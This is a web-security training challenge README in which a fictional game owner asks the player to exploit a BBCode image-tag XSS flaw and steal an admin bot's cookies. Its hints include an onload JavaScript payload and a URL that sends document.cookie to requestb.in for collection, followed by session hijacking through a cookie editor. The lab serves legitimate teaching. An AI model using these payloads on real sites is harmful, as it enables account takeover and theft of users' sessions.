 # XSS/CSRF Challenge 4

----------------------

Hey friend,

I have a new concern I'm hoping you can help me with.

I had a user recently complain to me that his account got hacked. Apparently the hacker found something in my BBCode parser he was able to exploit to do an XSS attack and steal this user's cookie, then login as him.

Can you see if you can duplicate that attack?

Just like the previous challenge, I have a phantomjs bot setup that will log in as my admin account and visit all user profiles in the game. To trigger it, just go to Trigger Admin Browser in the navigation. See if you can steal that account's cookies!

Thanks!

-Breakthenet Game Owner

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
   BBCode allows you to embed an image like so: ```[img]http://url.com/image.jpg[/img]```
   
   Play around with that.
</details>

<details> 
  <summary>Click for hint 2</summary>
   Try breaking the BBCode image tag by inserting other characters (besides the url) inside of it. Use chrome inspector or view-source on "My Profile" to see what your BBCode input looks like when it's translated into html.
</details>

<details> 
  <summary>Click for hint 3</summary>
   http://requestb.in/ is a neat site for testing webhooks. Cookie stealing is kind of like a webhook. If you were somehow able to get javascript execution, you could potentially change the SRC of the image to something like this:
   
   ```
   http://requestb.in/1fj9x6o1?c='+document.cookie
   ```
   
   And then review the cookie (passed as a GET parameter) on requestb.in!
</details>

<details> 
  <summary>Click for hint 4</summary>
   Did you know you can execute javascript when an image loads? It's simple! All you have to do is use the onLoad attribute, like so:
   
   ```
   <img src="logo.png" onload="alert(1)">
   ```
   
</details>

<details> 
  <summary>Click for hint 5</summary>
   While you can edit cookies with plain javascript, you can also cheat and use a browser extension like [this one](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en).
</details>




